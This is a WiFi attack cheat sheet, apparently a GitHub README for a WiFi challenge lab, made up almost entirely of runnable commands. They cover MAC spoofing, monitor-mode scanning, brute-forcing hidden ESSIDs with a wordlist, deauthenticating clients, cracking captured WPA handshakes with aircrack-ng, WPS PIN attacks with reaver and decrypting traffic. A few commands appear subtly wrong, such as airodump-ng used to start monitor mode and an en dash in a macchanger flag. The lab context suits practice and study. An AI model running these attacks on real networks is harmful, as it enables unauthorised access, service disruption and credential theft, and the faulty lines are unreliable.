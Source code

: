 # Table of contents

- [Enumeration](#enumeration)
- [Services](#services)

## Setup

change mac address
```bash
ip link set wlan0 down
macchanger –m [mac_to_set] wlan0
ip link set wlan0 up
```

setup wifi_db and run it
```bash
python3 wifi_db.py -d wifichallenge.db /home/user/wifi
sqlitebrowser wifichallenge.db
```

Connect to OPN (open) network
```
wpa_supplicant -Dnl80211 -iwlan0 -c opn.conf
dhclient wlan0 -v
```

## Enumeration

start monitor mode
```bash
airodump-ng start wlan0
```

scan all
```bash
airodump-ng wlan0 -b abg --wps
```

scan 5GHz network
```bash
airodump-ng wlan0 -b a
```

scan specific BBSID and write traffic to pcap
```bash
airodump-ng wlan0 -c [channel_id] --bssid [bssid] -w accesspoint.pcap
```

bruteforce to get hidden essid
```bash
airmon-ng start wlan0 1
mdk4 wlan0mon p -t [bssid] -f ~/rockyou.txt
```

find other clients in the same network
```bash
arp-scan -l -I wlan0
```

## WEP based deauth attack


Get hidden wifi
```bash
besside-ng -c [channel_id] -b [bssid] wlan1 -v
iwconfig wlan0mon channel 1 ### network is hidden, requires to probe it with correct ESSID
mdk4 wlan0mon p -t [bssid] -f ~/rockyou.txt
```

## WPA based deauth attack

airodump-ng wlan0mon -w wifi -c 1 --wps
aireplay-ng -0 0 -a [bssid] wlan0mon
aireplay-ng -0 0 -a [bssid] -c [client_mac] wlan0mon
aircrack-ng wifi-01.cap -w /path/to/rockyou.txt

sudo airodump-ng wlan0mon
sudo airodump-ng -c 3 -w wpa --essid [essid] --bssid [bssid] wlan0mon
sudo aireplay-ng -0 1 -a [bssid] -c [client_mac] wlan0mon
aircrack-ng -w /usr/share/john/password.lst -e [essid] -b [bssid] wpa-01.cap


## WPS

reaver -i wlan0 -b [bssid]

## Post-exploitation

airdecap-ng -e [essid] -p [password] wifi-wpa-01.cap